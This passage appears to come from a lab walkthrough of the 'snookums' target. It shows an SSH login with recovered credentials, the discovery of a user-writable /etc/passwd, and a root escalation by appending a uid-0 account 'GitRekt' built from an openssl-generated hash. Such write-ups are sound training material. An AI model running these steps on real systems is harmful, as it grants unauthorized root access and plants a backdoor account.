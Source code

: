 The resulting cleartext passwords appear legitimate.

### SSH and Local Enumeration

Let's attempt to SSH into the target with the recovered credentials.

```
kali@kali:~$ ssh michael@192.168.120.135
michael@192.168.120.135's password: 
[michael@snookums ~]$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[michael@snookums ~]$
```

We successfully authenticated as michael, and it appears that this user can write to **/etc/passwd**:

```
[michael@snookums ~]$ ls -lah /etc/passwd
-rw-r--r--. 1 michael root 1.2K Jun  9 10:22 /etc/passwd
[michael@snookums ~]$
```

With this level of access, we should be able to add an arbitrary user to the `root` group.

### Adding New User

Let's generate the password hash for a user named `GitRekt` with a password of `pwn1337`:

```
kali@kali:~$ openssl passwd -1 -salt GitRekt pwn1337
$1$GitRekt$FzDARwVLdGr6swDMInZda1
kali@kali:~$
```

Next, we'll create a proper **/etc/passwd** entry, creating a user which is a member of the root group:

```
[michael@snookums ~]$ echo 'GitRekt:$1$GitRekt$FzDARwVLdGr6swDMInZda1:0:0::/root:/bin/bash' >> /etc/passwd
[michael@snookums ~]$ cat /etc/passwd | grep GitRekt
GitRekt:$1$GitRekt$FzDARwVLdGr6swDMInZda1:0:0::/root:/bin/bash
[michael@snookums ~]$
```

We can now SSH in as `GitRekt` to confirm root privilege on the system:

```
kali@kali:~$ ssh GitRekt@192.168.120.135
GitRekt@192.168.120.135's password: 
[root@snookums ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@snookums ~]#
```